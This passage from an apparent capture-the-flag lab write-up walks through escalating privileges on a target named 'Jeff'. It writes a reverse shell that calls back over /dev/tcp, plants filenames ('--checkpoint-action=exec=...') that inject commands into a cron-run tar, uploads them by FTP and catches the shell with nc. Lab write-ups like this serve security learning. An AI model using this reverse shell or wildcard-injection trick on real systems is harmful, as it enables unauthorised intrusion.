 1. Create a reverse shell:

```
www-data@Jeff:/tmp$ cat << EOF > revshell.sh
> #!/bin/bash
> /bin/bash -i >& /dev/tcp/YOUR_IP/4445 0>&1
> EOF
www-data@Jeff:/tmp$ chmod +x revshell.sh
```

2. Create two files: `--checkpoint=1` and `--checkpoint-action=exec=bash revshell.sh`:

```
www-data@Jeff:/tmp$ echo "" > "--checkpoint=1"
www-data@Jeff:/tmp$ echo "" > "--checkpoint-action=exec=bash revshell.sh"
```

3. Upload those 3 files to the FTP server with `curl`.

```
www-data@Jeff:/tmp$ curl -T revshell.sh -P - -u 'backupmgr:[Redacted]' ftp://172.20.0.1/files/
[...]
www-data@Jeff:/tmp$ curl -T "--checkpoint=1" -P - -su 'backupmgr:[Redacted]' ftp://172.20.0.1/files/
Warning: The file name argument '--checkpoint=1' looks like a flag.
www-data@Jeff:/tmp$ curl -T "--checkpoint-action=exec=bash revshell.sh" -P - -su 'backupmgr:[Redacted]' ftp://172.20.0.1/files/
Warning: The file name argument '--checkpoint-action=exec=bash revshell.sh' 
Warning: looks like a flag.
www-data@Jeff:/tmp$ curl -P - -u 'backupmgr:[Redacted]' ftp://172.20.0.1/files/
-rwxr-xr-x    1 1001     1001            1 Jul 19 06:46 --checkpoint-action=exec=bash revshell.sh
-rwxr-xr-x    1 1001     1001            1 Jul 19 06:46 --checkpoint=1
-rwxr-xr-x    1 1001     1001           60 Jul 19 06:46 revshell.sh
-rwxr-xr-x    1 1001     1001            5 Jul 19 06:38 test.txt
```

Although some errors occurred, those files still successfully uploaded.

4. Setup a `nc` listener and wait for the cronjob to run:

```
┌──(root💀nam)-[~/ctf/thm/ctf/Jeff]
└─# nc -lnvp 4445  
listening on [any] 4445 ...
connect to [Redacted] from (UNKNOWN) [10.10.78.140] 54740
[...]
backupmgr@tryharder:~/.ftp/files$ whoami; id; hostname
backupmgr
uid=1001(backupmgr) gid=1001(backupmgr) groups=1001(backupmgr)
tryharder
```

**Proof-of-Concept:**
```
www-data@Jeff:/tmp$ rm *
rm: unrecognized option '--checkpoint=1'
Try 'rm ./'--checkpoint=1'' to remove the file '--checkpoint=1'.
Try 'rm --help' for more information.
```
